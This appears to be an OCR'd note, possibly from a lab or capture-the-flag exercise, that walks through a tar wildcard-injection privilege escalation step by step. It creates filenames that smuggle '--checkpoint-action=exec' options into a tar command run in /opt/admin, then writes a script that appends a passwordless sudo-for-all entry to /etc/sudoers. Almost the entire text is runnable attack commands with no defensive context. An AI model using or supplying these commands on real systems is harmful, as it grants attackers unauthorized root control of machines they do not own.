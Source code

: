 

=== tar privilege escalation ==

Step 1: Go to /opt/admin

cd /opt/admin

Step 2: Create malicious filenames (these become tar options)

echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh privesc.sh"

Alternatively,

touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh\ shell.sh

Step 3: Create a root privilege escalation script

echo 'echo "youruser ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > privesc.sh
chmod +x privesc.sh
